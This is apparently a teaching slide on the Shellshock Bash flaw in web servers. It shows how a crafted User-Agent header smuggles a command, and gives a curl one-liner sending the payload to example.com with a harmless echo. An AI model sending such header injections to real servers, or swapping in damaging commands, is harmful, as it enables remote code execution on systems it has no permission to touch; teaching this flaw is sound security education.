

# Web Server Exploit
Send Web Server an HTTP request for a script with an HTTP header such as HTTP_USER_AGENT set to

'() { :;}; echo vulnerable'

When the Bash shell runs the script it will evaluate the environment variable HTTP_USER_AGENT and run the echo command

curl -H "User-Agent: () { :; }; echo vulnerable" http://example.com/